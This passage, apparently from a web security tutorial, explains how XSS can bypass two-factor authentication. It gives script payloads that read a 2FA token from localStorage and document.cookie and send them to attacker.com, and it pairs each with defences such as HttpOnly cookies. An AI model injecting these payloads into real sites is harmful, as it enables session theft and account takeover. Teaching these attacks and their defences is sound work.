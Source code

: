 Monitor for unauthorized DOM changes

    new MutationObserver((mutations) => {
        mutations.forEach((mutation) => {
            if (mutation.addedNodes.length) alert("Potential phishing attack detected!");
        });
    }).observe(document.body, { childList: true });

⚡ 2️⃣ XSS + 2FA Token Hijacking

Many 2FA implementations use temporary authentication tokens stored in localStorage or sessionStorage. If an attacker can access these via XSS, they can bypass 2FA.
🔴 XSS Attack: Stealing 2FA Tokens

If a website stores 2FA tokens in localStorage, inject:

<script>
    fetch("https://attacker.com/steal", {
        method: "POST",
        body: JSON.stringify({ token: localStorage.getItem("2fa_token") })
    });
</script>

💣 What This Does:

    Steals the 2FA token before it expires.
    Sends it to the attacker's server (https://attacker.com/steal).
    Attacker logs in before the victim notices.

✅ How to Defend Against This?

    Never store 2FA tokens in localStorage or sessionStorage.
        Use HttpOnly cookies instead:

        res.cookie("2fa_token", token, { httpOnly: true, secure: true });

    Re-authenticate users when logging in from a new device.

⚡ 3️⃣ XSS + Session Hijacking (Bypassing 2FA)

Even if 2FA is enabled, an attacker can steal the user’s session via XSS.
🔴 XSS Attack: Stealing Session Cookies

If a site does not use HttpOnly cookies, inject:

<script>
    fetch("https://attacker.com/session?cookie=" + document.cookie);
</script>

💣 What This Does:

    Sends the victim’s session token to the attacker.
    The attacker logs in as the victim without needing 2FA.

✅ How to Defend Against This?

    Use HttpOnly cookies so JavaScript cannot access session tokens.

    Set-Cookie: session=abcd1234; HttpOnly; Secure; SameSite=Strict

    Implement device-based authentication to detect new logins.

